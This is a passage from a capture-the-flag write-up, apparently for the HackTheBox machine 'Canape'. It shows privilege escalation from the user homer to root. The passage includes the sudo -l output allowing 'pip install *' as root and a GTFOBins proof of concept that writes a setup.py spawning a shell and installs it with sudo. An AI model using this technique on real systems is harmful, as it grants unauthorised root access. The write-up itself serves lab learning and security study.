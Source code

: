 ### Sudo Pip --> Root

When checking `sudo` privileges, we see that we can run `pip install` as `root`:

```
homer@canape:~$ sudo -l
[sudo] password for homer: 
Matching Defaults entries for homer on canape:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User homer may run the following commands on canape:
    (root) /usr/bin/pip install *
```

Using this, we can spawn a `root` shell using the PoC on GTFOBins:

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

<figure><img src="../../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

Rooted!
